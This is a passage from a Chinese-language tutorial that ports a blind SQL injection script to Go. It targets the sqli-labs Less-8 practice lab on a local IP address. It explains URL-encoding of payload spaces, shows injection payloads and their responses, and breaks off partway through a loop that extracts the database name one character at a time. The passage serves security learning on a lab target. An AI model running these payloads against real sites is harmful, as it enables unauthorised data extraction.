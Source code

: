 所以基于以上理由，我们假设：**URL 中未被编码的空格会被截断掉**。当然这个假设的前提是 golang 的版本是 `1.13.6`。可能在其他版本中会被休息（个人认为可能性不大，因为这个不算是一个 bug，而更加可能是一个 feature）。

我们来进行代码执行对比一下来验证我们的猜想。URL 我们测试两个：

```go
// 第一个为手工编码
url := "http://192.168.3.104/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%20--+"
// 第二个为原始，未编码
url := "http://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+"
```

测试结果如下：（为了显示简洁，不打印 response 的 body 内容了）

```shell
# 第一个结果：
Yes! You are in

# 第二个结果：
Ohh! You are not in!
```

我们的猜想合理且正确！**URL 中未被编码的空格的确会被截断掉。**

### 完整的代码

到此，遇到的问题也解决了。直接看下代码里怎么写。整体和 Python 版的类似，并无其他大的区别。

```go
package main

import (
	"fmt"
	"github.com/levigross/grequests"
	"log"
	"strings"
	"time"
)

var baseURL = "http://192.168.3.104/Less-8/?id="
var mark = "You are in"

// Comes from: https://dev.to/rubiin/measure-function-execution-time-in-golang-177l
func measureTime(start time.Time, name string) {
	elapsed := time.Since(start)
	log.Printf("Time for %s: %s", name, elapsed)
}

func probeDatabaseLinear() string {
	defer measureTime(time.Now(), "Linear")

    // 为了方便拼接和复用，此处把sqlPayload单独独立出来（亦可作为一个函数参数传递进来）
	sqlPayload := "database()"
	dbName := ""

	// all visible character is: 32( )->126(~)
	j := 1
	exitFlag := false
	for !exitFlag {
		// always assume we will exit in this loop
		exitFlag = true
		for i := 36; i < 127; i++  {
			// raw payload: 1' and ascii(substr(database(),1,1))=115 --+
			// We need to encode ` `(Space) into `%20` to ensure net/http processes URL correctly
			payload := fmt.Sprintf("1'%%20and%%20ascii(substr(%s,%d,%d))=%d%%20--+", sqlPayload, j, j, i)
			resp, err := grequests.Get(baseURL + payload, nil)
```